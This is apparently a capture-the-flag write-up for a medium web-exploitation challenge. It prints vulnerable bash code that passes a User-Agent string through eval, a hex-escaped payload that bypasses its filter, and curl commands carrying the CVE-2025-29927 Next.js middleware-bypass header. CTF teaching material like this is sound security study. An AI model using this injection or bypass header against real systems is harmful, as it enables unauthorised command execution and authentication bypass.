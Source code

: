 # <div align="center"><span style="color:#f03c15">COMMAND INJECTION IN THE LOGS</span></div>

<div align="center">
  <h2 style="color:#4287f5">AISEC ENSA MARRAKECH CTF 2025</h2>
  <p><b>Challenge Creator</b>: hmidal3yan | <b>Difficulty</b>: <span style="color:#f59e0b">Medium</span> | <b>Category</b>: <span style="color:#10b981">Web Exploitation</span></p>
  <hr style="border: 1px solid #ddd; margin: 20px 0">
</div>

## <span style="color:#38bdf8">TARGET OVERVIEW</span>

This Next.js application records user interactions in log files. The critical vulnerability exists in how the system processes the `User-Agent` field in the `contact.log` file - specifically, an unsafe `eval` command that gives us our foothold.

### <span style="color:#a855f7">System Constraints:</span>
- <span style="color:#ef4444">⚠️</span> The filter script runs with limited user privileges (`filteruser`)
- <span style="color:#ef4444">⚠️</span> Available commands are restricted to those in `/restricted/bin`
- <span style="color:#ef4444">⚠️</span> Flag requires activation via the `flag` command before retrieval
- <span style="color:#ef4444">⚠️</span> Flag is only accessible for 2 minutes after activation
- <span style="color:#ef4444">⚠️</span> Special cookie required to access the flag endpoint

## <span style="color:#38bdf8">ATTACK SURFACE</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">
The application exposes several attack vectors:

```
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Contact Form   │──────▶│  Log Files   │──────▶│ Filter Script │
│  /api/contact   │       │ contact.log  │       │ (vulnerable)  │
│                 │       │              │       │               │
└─────────────────┘       └──────────────┘       └───────────────┘
                                                         │
                                                         │
                                                         ▼
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Flag Endpoint  │◀──────│ Flag Checker │◀──────│ Filtered Logs │
│ /api/i7tiramati │       │              │       │               │
│                 │       └──────────────┘       └───────────────┘
└─────────────────┘
```
</div>

### <span style="color:#a855f7">Key API Endpoints:</span>
- <span style="color:#f97316; font-weight:bold">POST /api/contact</span>: Logs User-Agent to `contact.log` (our injection point)
- <span style="color:#f97316; font-weight:bold">GET /api/logs</span>: Retrieves processed logs from `logs/filtered`
- <span style="color:#f97316; font-weight:bold">GET /api/i7tiramati</span>: Returns the flag (requires authentication + activation)

## <span style="color:#ef4444">CRITICAL VULNERABILITY</span>

<div style="background-color:#fef2f2; color:#7f1d1d; padding:15px; border-radius:5px; border-left:4px solid #ef4444">
The filter script processes log entries with a dangerous pattern:

```bash
# Vulnerable code in filter.sh
sanitized=$(echo "$user_agent" | sed 's/[;&|`$()]//g')
decoded=$(printf '%b' "$sanitized")
processed=$(eval "echo \"$decoded\"")
```

This unsafe `eval` is badly sanitized and allows use to use Hexa to bypass the sanitization and execute arbitrary commands when our payload is processed by the filter script.
</div>

## <span style="color:#10b981">EXPLOITATION WALKTHROUGH</span>

<div style="display:flex; margin-bottom:20px;">
  <div style="flex:1; padding:10px; background-color:#ecfdf5; border-radius:5px; margin-right:10px; border-left:4px solid #10b981">
    <h3 style="color:#10b981">PHASE 1: RECONNAISSANCE</h3>
    <ol>
      <li>Examine the application structure</li>
      <li>Identify the vulnerable log processing mechanism</li>
      <li>Understand the flag activation requirements</li>
    </ol>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#eff6ff; border-radius:5px; margin:0 10px; border-left:4px solid #3b82f6">
    <h3 style="color:#3b82f6">PHASE 2: PAYLOAD CRAFTING</h3>
    <p>We need to:</p>
    <ul>
      <li>Inject a command that executes the `flag` command</li>
      <li>Obtain the special cookie by using `\x24\x28flag\x29` as our User-Agent</li>
      <li>Prepare for accessing the flag endpoint</li>
    </ul>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#fef2f2; border-radius:5px; margin-left:10px; border-left:4px solid #ef4444">
    <h3 style="color:#ef4444">PHASE 3: EXPLOITATION</h3>
    <ol>
      <li>Submit a contact form with our crafted User-Agent payload</li>
      <li>Wait for the filter script to process our payload (runs every 3 minutes)</li> 
      <li>Confirm flag activation (writes "1" to `/tmp/.flag_activated`)</li>
      <li>Access `/api/i7tiramati` with the acquired cookie</li>
    </ol>
  </div>
</div>

## <span style="color:#f59e0b">EXPLOITATION TOOLS</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">

```bash
# Crafting payload with curl
curl -X POST http://target:3000/api/contact \
  -H "Content-Type: application/json" \
  -H "User-Agent: \x24\x28flag\x29" \
  -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" \
  -d '{"name":"hacker","email":"exploit@test.com","message":222 /to cause ERROR/}'
THAT IS THE PAYLOAD STRUCTURE BUT IT IS BETTER TO USE POSTMAN OR BURPSUITE so you capture the cookie returned to the user.
# Retrieving flag
curl -X GET http://target:3000/api/i7tiramati \
      -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" \
      -H "Cookie: special_cookie=value_from_response"
```
</div>

## <span style="color:#38bdf8">REAL-WORLD CONNECTIONS</span>

This challenge draws inspiration from CVE-2025-29927, a Next.js middleware bypass vulnerability where attackers could bypass authentication by adding a specific header:

<div style="background-color:#1e293b; padding:15px; border-radius:5px; color:#94a3b8; font-family:monospace;">
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
</div>

While our challenge focuses on command injection rather than middleware bypass, both exploits demonstrate how HTTP headers can be weaponized to compromise application security.
